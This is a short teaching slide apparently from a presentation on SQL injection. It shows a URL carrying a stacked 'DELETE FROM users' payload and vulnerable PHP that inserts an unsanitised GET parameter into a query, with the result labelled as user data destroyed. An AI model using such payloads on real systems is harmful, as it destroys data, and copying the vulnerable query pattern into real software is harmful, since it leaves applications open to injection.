

# SQL Injection attacking example 1

http://example.com/db.php?id=0
http://example.com/db.php?id=0;DELETE%20FROM%20users

<?php
$id= $_GET[ 'id' ] ;
         //$id = 0;DELETE FROM users

$result = mysql_query("SELECT * FROM users WHERE id={$id}");

SQL Inject Code
User table data destroy